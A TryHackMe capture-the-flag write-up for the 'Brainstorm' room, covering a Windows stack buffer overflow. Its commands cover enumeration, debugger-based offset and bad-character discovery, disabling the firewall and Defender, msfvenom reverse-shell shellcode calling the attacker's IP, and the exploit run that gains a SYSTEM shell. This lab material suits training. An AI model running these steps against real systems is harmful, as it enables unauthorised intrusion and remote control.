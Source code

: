 # TryHackMe - Brainstorm

Writeup for the [Brainstorm](https://tryhackme.com/room/brainstorm) room in [TryHackMe](https://tryhackme.com/).

## Setup

Attacker: 
* Kali Linux - IPs: 10.2.31.1, 10.9.0.117
* Windows 10 VM - IP: 10.2.31.155

Target: 
* Windows, IP 10.10.144.220

## Exploitation steps

1. [Target enumeration](#target-enumeration)
1. [Binary exploration](#binary-exploration)
1. [Buffer overflow exploit](#buffer-overflow-exploit)

## Target enumeration

After starting the machine, I began an nmap enumeration:
```
nmap -n -Pn -p- 10.10.144.220
```

The target had some interesting open ports.

Whenever I find FTP or SMB ports I already start some manual exploration while at the same time executing other enumeration tools (enum4linux, nmap --scrip, etc).

Trying to connect to the FTP port (21) anonymously was a success:
```
ftp 10.10.144.220 21
```

Two interesting files were found in a directory and downloaded:
```
mget *
```

These files seemed like they were key to this challenge and I decided to test them in a Windows enviroment. 

I configured a temporary Windows 10 Virtual Machine and installed the following tools:

* Immunity Debugger: https://www.immunityinc.com/products/debugger/
  * Download and follow the default install
* mona.py: https://github.com/corelan/mona
  * Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

I disabled Windows firewall and antivirus so as not to have any problems during the tests:
```
netsh advfirewall set allprofiles state off
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

With the Windows VM setup, it was time to test the binary.

## Binary exploration 

First thing I did was simply to run the application and see what it did.

With the application running, I verified if it had any open ports:
```
tasklist /v | findstr FILENAME.exe
```

```
netstat -ano | findstr 524
```


Nice! The opened port is one of the ports found during the target enumeration. The target is probably running this application.

We can interact both with the target and the Windows VM to find out if they are indeed running the same application:

* Windows VM
```
nc -nv 10.2.31.155 9999
```


* Target
```
nc -nv 10.10.144.220 9999
```


They are probably the same! Now it was time to test for some buffer overflow vulnerabilites.

During my studies I created a somewhat generic Python script to ease this type of test:
* ig-buffer-overflow.py: https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow

I used the script in all following steps. Please feel free to reuse it and contribute to it.

First thing was to open the application in the debugger and send some random bytes to it (I sent 10000). In this case I tried to crash the application after the 'user' input, while it was waiting for the write content.
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=9999 --buffsize=10000 --buffhead='' --interact=";;user"
```

Nice! The application crashed. Analysing the debugger we can see that we could overwrite the EIP and that the ESP pointed to some of the content that we sent:



Verifying our memory disposition (right-click on 'ESP' → Follow in Dump), we could see that the application broke at aproximaly 4096 bytes (1000h):



Now it was time to try to find out where in our sent content was the EIP, or, as also known, find out what was the EIP offset. 

I restarted the application on the debugger and sent a cyclic string from my Kali Linux:
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user"
```


The application crashed with EIP = 31704330

Using the same script, I could now find where in the string I could set the EIP:
```
./ig-buffer-overflow.py -m checkoffset --value 31704330 --length=4096
Offset for length 4096: 2012
```

I now had to find the address of an instruction that could jump to the ESP. I used mona.py:
```
!mona jmp -n -r ESP
```


I used the first found address (0x625014df)

Before sending a test shell code, I tested the application for bad chars (I already removed the null byte '00' since this usually crashs memory):
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --badchar=after --exclude=00
```

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 012DEEA8
```


Only '00' was found out as a badchar (since I didn't send it). I could finally test the execution of some shell code.

I generated the payload using msfvenon:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=80 -f hex EXITFUNC=thread -o reverse280
```

I set up a listener on my Kali Linux:
```
sudo rlwrap -a nc -lvnp 80
```

And sent the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse280 --nops=12
```



Success! Got the shell. But on my Windows VM.


## Buffer overflow exploit

I now only had to adapt the exploit so that it could run on the target machine.

I regenerated the shell code:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.9.0.117 LPORT=80 -f hex EXITFUNC=thread -o reverse980
```

Set up a listener:
```
sudo rlwrap -a nc -lvnp 80
```

Executed the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.10.144.220 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse980 --nops=12
```

Bingo! Got a privileged user shell (nt authority\system)!

I searched for the file using the following Windows commands and completed the challenge!
```
cd C:\
dir /b/s *root.txt
type "C:\FINDTHEPATH\root.txt"
```

THE END!

---

*Note: I did try to crash the application at the 'user' parameter, but for some reason could not do it. I saw that I could overwrite the EIP in this case, so I'll probably retry this latter.*

